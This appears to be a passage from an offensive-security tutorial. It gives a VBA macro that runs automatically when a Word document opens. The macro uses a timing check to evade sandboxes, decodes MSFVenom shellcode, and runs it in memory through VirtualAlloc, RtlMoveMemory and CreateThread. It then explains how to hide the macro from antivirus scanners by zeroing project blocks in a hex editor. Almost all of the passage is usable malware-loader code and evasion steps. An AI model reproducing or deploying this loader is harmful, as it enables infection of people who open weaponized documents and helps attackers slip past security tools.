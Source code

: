 ```vb
	Dim t1 As Date
	Dim t2 As Date
	Dim time As Long

	t1 = Now()
	Sleep (2000)
	t2 = Now()
	time = DateDiff("s", t1, t2)

	If time < 2 Then
	    Exit Function
	End If
    
    buf = <code_from_MSFVenom> ' It should be something like Array(232,130...) coming from the script above.

	For i = 0 To UBound(buf) 'decryption routine
	    buf(i) = buf(i) - 2
	Next i
	
			' VirtualAlloc(address, size, allocation type, protections/permissions)
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40) 'to allocate memory that is writable, readable and executable.
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
		        'RtlMoveMemory(buffer, address, length)
        res = RtlMoveMemory(addr + counter, data, 1) 'to move the shellcode in the portion of memory just created. 
    Next counter
		    'CreateThread(0, 0, start_address for code execution, 0, 0, 0)
    res = CreateThread(0, 0, addr, 0, 0, 0) 'to create the thread that runs the code
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
You can reduce detection even more if you open the file withn a tool like FlexHEX and:
- Go into PROJECT and remove "Module=NewMacros", replacing it with Zero Blocks (underline the part and _Edit_ > _Insert Zero Block_)
- Close and reopen
- Open NewMacros and do the same for the block from "Attribute VB_Name=.........." to the very last byte.

&nbsp;

---